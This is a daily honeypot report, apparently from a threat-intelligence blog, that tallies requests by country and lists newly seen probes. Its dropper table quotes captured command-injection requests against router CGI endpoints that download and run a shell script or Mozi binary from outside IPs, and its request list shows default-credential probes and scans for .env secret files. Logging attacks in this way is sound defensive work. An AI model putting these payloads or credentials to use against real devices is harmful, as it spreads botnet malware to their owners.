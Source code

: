 ```yaml
---
title: "Report: 2025-08-25 "
date: 2025-08-25
desciption: "Report: 2025-08-25" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-25 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 13 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 2676 requests were recorded during the day, originating from 2 different countries, with a peak of 2318 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Dubai              |
| GB               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                    |
|:---------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 201.103.192.43 | GET /login.cgi?cli=aa%20aa%27;wget%20http://46.36.37.3/sh%20-O%20-%3E%20/tmp/kh;sh%20/tmp/kh%27$ HTTP/1.1                                                                  |
| 59.88.37.97    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://59.88.37.97:59512/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                  |
|-----:|----------------------:|:---------------------------------------------------------|
|   13 |                     4 | CONNECT 206.123.145.21:80 HTTP/1.0                       |
| 1133 |                     1 | \x04\x01\x00P\xC4\xFBG\x8F\x00                           |
| 1134 |                     1 | CONNECT 196.251.71.143:80 HTTP/1.0                       |
| 1166 |                     1 | \x04\x01\x00P\xCE{\x91\x15root:r00t\x00                  |
| 1167 |                     1 | \x04\x01\x00P\xCE{\x91\x15config:config\x00              |
| 1168 |                     1 | \x04\x01\x00P\xCE{\x91\x15admin:1234\x00                 |
| 1169 |                     1 | \x04\x01\x00P\xCE{\x91\x15fwupgrade:CxVn1geRkJQq0yUc\x00 |
| 1184 |                     1 | GET /VHnP HTTP/1.1                                       |
| 1185 |                     1 | GET /mbGG HTTP/1.1                                       |
| 1224 |                     1 | GET /.env-test-stage HTTP/1.1                            |
| 1225 |                     1 | GET /.env.local.dist HTTP/1.1                            |
| 1227 |                     1 | GET /.env-test-suite HTTP/1.1                            |
| 1228 |                     1 | GET /.env.live.local HTTP/1.1                            |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2318 | GB                 |
|  1 |                   136 | US                 |
|  2 |                    76 | BG                 |
|  3 |                    29 | DE                 |
|  4 |                    22 | SC                 |
|  5 |                    19 | HK                 |
|  6 |                    14 | NL                 |
|  7 |                    11 | CA                 |
|  8 |                     6 | SG                 |
|  9 |                     6 | IN                 |
| 10 |                     6 | CN                 |
| 11 |                     4 | RU                 |
| 12 |                     3 | BR                 |
| 13 |                     3 | ZA                 |
| 14 |                     3 | BE                 |
| 15 |                     2 | VN                 |
| 16 |                     2 | AU                 |
| 17 |                     2 | KR                 |
| 18 |                     2 | FR                 |
| 19 |                     1 | AZ                 |
| 20 |                     1 | AM                 |
| 21 |                     1 | IR                 |
| 22 |                     1 | JP                 |
| 23 |                     1 | AT                 |
| 24 |                     1 | MX                 |
| 25 |                     1 | MC                 |
| 26 |                     1 | TH                 |
| 27 |                     1 | TW                 |
| 28 |                     1 | ID                 |
| 29 |                     1 | BD                 |
| 30 |                     1 | UA                 |
